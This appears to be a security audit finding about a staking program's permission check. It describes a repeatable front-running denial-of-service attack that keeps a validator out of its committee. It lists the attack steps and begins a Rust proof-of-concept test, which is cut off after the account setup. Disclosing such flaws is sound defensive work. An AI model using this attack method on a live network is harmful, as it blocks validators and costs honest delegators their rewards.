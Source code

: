 ```java

    // Either the caller is the staker's withdrawal address OR the validator's withdrawal address is set to the caller.
    or r7 r11 into r12;
    // Enforce the permission as `true`.
    assert.eq r12 true;
```    
Every time a validator is unbonded, they need to wait 360 blocks before they can join the committee again. When they claim their unbonded assets, the withdrawal address is removed again, which means they cannot unbond the malicious delegators, which makes it possible for malicious delegators to front-run the validator and perform a constant DoS attack. 
## Impact
This can lead to a DoS when the validator self-bonds and joins the committee for the first time. Consider the following attack scenario :

1. Malicious delegators bond to the validator, increasing the total delegated amount beyond 10M credits
2. The validator cannot unbond the malicious delegators because withdrawal mapping has not been set
3. Validator self-bonds with 100 credits and joins the committee 
4. Delegators pull their bonds through `unbond_public` and force the validator to leave the committee 
5. The validator is restricted from joining the committee again for 360 blocks, and also no other delegators can bond to the validator during this time
6.  As soon as the validator finishes unbonding, the malicious delegators can front-run the validator and repeat the same attack as their funds have finished unbonding as well.

This is also an issue for honest delegators because they will not earn rewards if the validator is not in the committee. Hence, they may be disincentivized from delegating their funds to the validator.

## Coded POC
```rust
#[test]
fn test_poc() {
    let rng = &mut TestRng::default();

    // Construct the process.
    let process = Process::<CurrentNetwork>::load().unwrap();
    // Initialize a new finalize store.
    let (store, _temp_dir) = sample_finalize_store!();

    // Initialize the validator and delegator keys
    let validator_private_key = PrivateKey::<CurrentNetwork>::new(rng).unwrap();
    let validator_address = Address::try_from(&validator_private_key).unwrap();
    let withdrawal_private_key = PrivateKey::<CurrentNetwork>::new(rng).unwrap();
    let withdrawal_address = Address::try_from(&withdrawal_private_key).unwrap();
    let delegator_private_key = PrivateKey::<CurrentNetwork>::new(rng).unwrap();
    let delegator_address = Address::try_from(&delegator_private_key).unwrap();
    let malicious_delegator_private_key = PrivateKey::<CurrentNetwork>::new(rng).unwrap();
    let malicious_delegator_address = Address::try_from(&malicious_delegator_private_key).unwrap();

    // Initialize the account balances
    let validator_balance = 1_000_000_000u64; // 1,000 credits
    let delegator_balance = 100_000_000_000_000u64;
    initialize_account(&store, &validator_address, validator_balance).unwrap();
    initialize_account(&store, &delegator_address, delegator_balance).unwrap();
    initialize_account(&store, &malicious_delegator_address, delegator_balance).unwrap();

    let delegator_amount = MIN_VALIDATOR_STAKE - 20_000_000_000u64;
    let validator_amount = MIN_VALIDATOR_SELF_STAKE;
    let malicious_amount: u64 = 20_000_000_000u64;
    // Sanity check the state before finalizing.
```